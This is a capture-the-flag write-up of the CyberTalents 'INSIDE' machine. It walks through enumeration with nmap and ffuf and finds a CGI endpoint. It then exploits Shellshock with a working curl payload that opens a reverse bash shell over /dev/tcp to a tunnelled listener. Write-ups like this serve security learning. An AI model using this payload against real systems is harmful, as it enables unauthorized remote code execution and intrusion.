

# INSIDE — CyberTalents Write-up

## Challenge Information

| Field | Details |
|---|---|
| Platform | CyberTalents |
| Challenge | INSIDE |
| Category | Machines |
| Difficulty | Medium |
| Vulnerability | Shellshock (CVE-2014-6271) |
| Target OS | Linux |

## 1. Introduction

INSIDE is a medium-level machine challenge on CyberTalents. The objective was to enumerate the target, identify an exploitable vulnerability, gain remote access, and retrieve the flag.

The challenge involved directory enumeration, CGI discovery, and exploitation of the Shellshock vulnerability to achieve Remote Code Execution (RCE).

## 2. Reconnaissance

### Nmap Scan

I started by scanning the target to identify open ports and running services.

```bash
nmap -T4 -sCV <TARGET-IP>
```

The scan revealed three open ports:

| Port | Service | Version |
|---|---|---|
| 22/tcp | SSH | OpenSSH 8.2p1 Ubuntu |
| 80/tcp | HTTP | Apache 2.2.22 (Debian) |
| 3389/tcp | XRDP | ms-wbt-server |

The HTTP service was particularly interesting because it exposed a web application.



### HTTP Inspection

Next, I inspected the HTTP response and source code using curl.

```bash
curl -i http://<TARGET-IP>
```

The response revealed an interesting HTML comment:

```html
<!-- Flag in /home/ -->
```

This suggested that the flag might be located somewhere inside the `/home/` directory on the target.


## 3. Directory Enumeration

I used FFUF to discover hidden directories and paths.

```bash
ffuf -u http://<TARGET-IP>/FUZZ \
     -w /path/to/wordlist
```

During enumeration, I discovered the following directory:

```text
/cgi-bin/
```

Accessing it directly returned:

```text
403 Forbidden
```

Rather than stopping there, I decided to enumerate the contents of the restricted directory.

```bash
ffuf -u http://<TARGET-IP>/cgi-bin/FUZZ \
     -w /path/to/wordlist
```

This revealed another interesting path:

```text
/cgi-bin/status
```

Although the parent directory was inaccessible through a normal directory listing, its contents could still be discovered through enumeration.

## 4. Vulnerability Identification

After discovering the CGI endpoint, I investigated the server's software and potential vulnerabilities.

The target was running an old Apache version, and my research led me to Shellshock.

Shellshock is a vulnerability in GNU Bash that allows arbitrary command execution through specially crafted environment variables. In vulnerable CGI configurations, HTTP headers can be passed to Bash as environment variables, creating a potential remote code execution vector.

The relevant vulnerability is:

- **CVE:** CVE-2014-6271
- **Name:** Shellshock
- **Impact:** Remote Code Execution (RCE)

Reference: https://www.cve.org/CVERecord?id=CVE-2014-6271

## 5. Exploitation — Shellshock

Once I identified the potential vulnerability, I prepared to establish a reverse shell.

### Setting up the Listener

I started a Netcat listener on port 4444:

```bash
nc -lvp 4444
```

Since the target needed to connect back to my machine, I used ngrok to expose my local listening port.

```bash
ngrok tcp 4444
```

Ngrok provided a public TCP forwarding address that I could use in the reverse-shell payload.

### Triggering the Exploit

I crafted an HTTP request containing a Shellshock payload in the User-Agent header.

```bash
curl -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/<PUBLIC-IP>/<PORT> 0>&1' " \
http://<TARGET-IP>/cgi-bin/status
```

The payload exploited Bash's vulnerable parsing behavior and instructed the target to initiate a connection back to my listener.

### Obtaining a Shell

After sending the request, my Netcat listener received a connection.

I successfully obtained a shell as:

```text
www-data@7bcdbf4ea63c
```

This confirmed successful remote code execution on the target.

## 6. Flag Retrieval

With shell access established, I navigated to the `/home/` directory identified during reconnaissance.

```bash
cd /home
ls -la
```

I discovered the file:

```text
inside.txt
```

Finally, I read its contents:

```bash
cat inside.txt
```

The flag was successfully retrieved.

## 7. Attack Chain Summary

```text
Nmap
  |
  v
HTTP Inspection
  |
  v
HTML Comment: Flag in /home/
  |
  v
FFUF Directory Enumeration
  |
  v
/cgi-bin/status
  |
  v
Shellshock (CVE-2014-6271)
  |
  v
Reverse Shell via Ngrok + Netcat
  |
  v
www-data Shell
  |
  v
/home/inside.txt
  |
  v
FLAG
```

## 8. Lessons Learned

This challenge reinforced several important penetration-testing concepts:

- A 403 Forbidden response does not necessarily mean that a directory's contents cannot be enumerated.
- Directory enumeration should be adapted based on discoveries rather than stopping at inaccessible parent directories.
- CGI endpoints can expose vulnerable Bash execution paths.
- Shellshock demonstrates how environment-variable handling can lead to remote code execution.
- Reverse shells require an appropriate listener and reachable callback address.
- HTML comments and other seemingly insignificant source-code details can provide useful reconnaissance clues.

## 9. Conclusion

INSIDE demonstrated how a relatively simple reconnaissance process can lead to a critical vulnerability and remote shell access.

By combining Nmap, curl, FFUF, vulnerability research, and a reverse-shell setup, I successfully exploited Shellshock and retrieved the challenge flag.

This challenge was a useful exercise in connecting reconnaissance, vulnerability identification, exploitation, and post-exploitation into a single attack chain.